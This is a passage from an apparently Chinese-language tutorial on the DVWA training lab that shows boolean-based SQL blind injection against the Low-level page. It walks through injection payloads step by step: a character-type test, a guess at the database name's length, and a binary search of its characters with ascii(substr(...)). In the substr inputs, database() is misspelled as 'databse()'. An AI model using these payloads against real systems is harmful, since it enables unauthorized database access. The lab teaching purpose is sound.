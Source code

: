         mysql_close(); 
    } 
    
    ?> 

可以看到， Low 级别的代码对参数id没有做任何检查、过滤，存在明显的SQL注入漏洞，同时SQL语句查询返回的结果只有两种，‘

    User ID exists in the database.

‘与‘

    User ID is MISSING from the database.`

‘，因此这里是SQL盲注漏洞。

### 漏洞利用 

首先演示 **基于布尔的盲注** ： 

### 1.判断是否存在注入，注入是字符型还是数字型

输入 1 ，显示相应用户存在：

![][14]

输入1’ and 1=1 #，显示存在： 

![][15]

输入1’ and 1=2 #，显示不存在： 

![][16]

说明存在字符型的SQL盲注。 

### 2.猜解当前数据库名

想要猜解数据库名，首先要猜解数据库名的长度，然后挨个猜解字符。

 输入1  ’  and length(database())=1 # ，显示不存在；

 输入1  ’  and length(database())=2 # ，显示不存在；

 输入1  ’  and length(database())=3 # ，显示不存在；

 输入1  ’  and length(database())=4 # ，显示存在：

说明数据库名长度为4。 

下面采用二分法猜解数据库名。

输入 1’ and ascii(substr(databse(),1,1))>97 # ，显示存在，说明数据库名的第一个字符的ascii值大于97（小写字母a的ascii值）；

输入 1’ and ascii(substr(databse(),1,1))<122 # ，显示存在，说明数据库名的第一个字符的ascii值小于122（小写字母z的ascii值）；

输入 1’ and ascii(substr(databse(),1,1))<109 # ，显示存在，说明数据库名的第一个字符的ascii值小于109（小写字母m的ascii值）；

输入 1’ and ascii(substr(databse(),1,1))<103 # ，显示存在，说明数据库名的第一个字符的ascii值小于103（小写字母g的ascii值）；

输入 1’ and ascii(substr(databse(),1,1))<100 # ，显示不存在，说明数据库名的第一个字符的ascii值不小于100（小写字母d的ascii值）；


[1]: http://www.freebuf.com/articles/web/120985.html?utm_source=tuicool&utm_medium=referral
[4]: http://www.dvwa.co.uk/
[5]: http://img1.tuicool.com/7VvYrm2.jpg!web
[6]: http://www.freebuf.com/sectool/102661.html
[7]: http://www.freebuf.com/articles/web/116437.html
[8]: http://www.freebuf.com/articles/web/116714.html
[9]: http://www.freebuf.com/articles/web/118352.html
[10]: http://www.freebuf.com/articles/web/119150.html
[11]: http://www.freebuf.com/articles/web/119467.html
[12]: http://www.freebuf.com/articles/web/119692.html
[13]: http://www.freebuf.com/articles/web/120747.html
[14]: http://img1.tuicool.com/IZfEn2R.jpg!web
[15]: http://img2.tuicool.com/q2QBziu.jpg!web
[16]: http://img0.tuicool.com/3mMRnmF.jpg!web
[17]: http://img1.tuicool.com/bEFjaeU.jpg!web